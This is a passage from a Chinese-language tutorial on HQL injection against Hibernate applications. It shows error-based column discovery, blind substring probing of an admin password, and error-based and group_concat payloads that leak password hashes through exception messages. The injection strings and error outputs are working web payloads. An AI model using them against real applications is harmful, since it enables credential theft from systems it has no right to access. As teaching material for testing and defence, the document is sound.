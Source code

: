 ```java
org.hibernate.exception.SQLGrammarException:
 Column &#34;DOESNT_EXIST&#34; not found; SQL statement:select book0_.id as id21_, book0_.author as author21_, book0_.promoCode as promo3_21_, book0_.title as title21_, book0_.published as published21_ from Book book0_ where book0_.title like &#39;%&#39; or DOESNT_EXIST=&#39;%&#39; and book0_.published=1 [42122-159]
```

通过该异常，可以看到Hibernate查询的列表名。

 

**盲注**

如果查询不用的表，镶嵌使用子查询。

例如，以下查询会从表中选择一条与“User”实体关联的项

```sql
from Bookwhere title like &#39;%&#39; and (select substring(password,1,1) from User where username=&#39;admin&#39;) = &#39;a&#39; or &#39;&#39;=&#39;%&#39; and published = true
```

  之后就可以按常规的盲注模式进行盲注了。

**非盲注**

```sql
from Bookwhere title like &#39;%11&#39; and (select password from User where username=&#39;admin&#39;)=1 or &#39;&#39;=&#39;%&#39; and published = true
```

 Hibernate 将异常消息返回：

```sql
Data conversion error converting &#34;3f3ff0cdbfa0d515f8e3751e4ed98abe&#34;; 
SQL statement:select book0_.id as id18_, book0_.author as author18_, book0_.promotionCode as promotio3_18_, book0_.title as title18_, book0_.visible as visible18_ from Book book0_ where book0_.title like &#39;%11&#39; and (select user1_.password from User user1_ where user1_.username = &#39;admin&#39;)=1 or &#39;&#39;=&#39;%&#39; and book0_.published=1 [22018-159]
```

**利用数据库函数**

如：若数据库支持`group_concat`函数：

```
from Bookwhere title like &#39;%11&#39;    and (select cast(group_concat(password) as string) from User)=1    or &#39;&#39;=&#39;%&#39;    and published = true
```

 则异常触发为：

```sql
Data conversion error converting&#34;3f3ff0cdbfa0d515f8e3751e4ed98abe,79a41d71c31128ffab81ac8df2069f9c,b7fe6f6a1024db6e56027aeb558f9e68&#34;;SQL statement: select book0_.id as id18_, book0_.author as author18_, book0_.promotionCodeas promotio3_18_, book0_.title as title18_, book0_.visible as visible18_ from Book book0_ where book0_.title like &#39;%11&#39; and (select cast(group_concat(user1_.password) as varchar(255)) from User user1_)=1 or &#39;&#39;=&#39;%&#39; and book0_.published=1 [22018-159]
```
